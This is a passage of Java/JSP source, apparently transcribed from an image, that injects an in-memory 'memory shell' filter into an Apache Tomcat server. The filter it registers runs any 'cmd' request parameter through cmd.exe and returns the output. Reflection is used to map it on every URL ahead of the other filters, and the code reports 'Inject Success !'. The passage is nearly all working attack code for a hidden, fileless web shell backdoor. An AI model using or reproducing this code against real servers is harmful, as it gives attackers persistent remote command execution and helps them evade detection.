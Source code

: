 ```
            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null) {
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd.exe", "/C", req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes, 0, len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest, servletResponse);
            }

            @Override
            public void destroy() {

            }

        };

        // FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        // FilterMap
        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap);

        //ApplicationFilterConfig
        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);
        filterConfigs.put(name, filterConfig);

        out.print("Inject Success !");

    }
%>
```
